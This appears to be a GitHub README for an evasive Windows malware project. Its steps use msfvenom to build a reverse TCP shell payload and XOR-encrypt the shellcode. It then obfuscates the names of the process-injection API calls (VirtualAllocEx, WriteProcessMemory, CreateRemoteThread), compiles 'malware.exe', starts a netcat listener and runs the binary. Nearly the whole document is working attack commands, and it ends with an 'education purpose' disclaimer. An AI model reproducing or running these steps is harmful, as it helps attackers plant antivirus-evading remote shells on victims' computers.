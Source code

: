 ### Prerequesite
1. [Visual Studio](https://visualstudio.microsoft.com/downloads/)
2. [Python2](https://www.python.org/downloads/)
3. [Metasploit Framework](https://www.metasploit.com/download)

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o shellcode.bin
```

##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode.
```sh
python xorencrypt.py shellcode.bin
```

##### All Functions Must Be Encrypted
Make sure every functions like a `CreateRemoteThread`, `WriteProcessMemory`, and `VirtualAllocEx` are encrypted. Use the Python to do.
```sh
ptyhon
printCiphertext(xor("VirtualAllocEx", "password"))
printCiphertext(xor("WriteProcessMemory", "password"))
printCiphertext(xor("CreateRemoteThread", "password"))
```
>Note: Once those done, put them in the `*.cpp` file, take a look the specific line.

### Execute
1. Run `compiler.bat` to compile all of them, then you will have `malware.exe`
2. Run the listener (such as [Netcat] (https://github.com/diegocr/netcat/) tool)
3. Run `malware.exe`

***All stuffs are only for education purpose!***
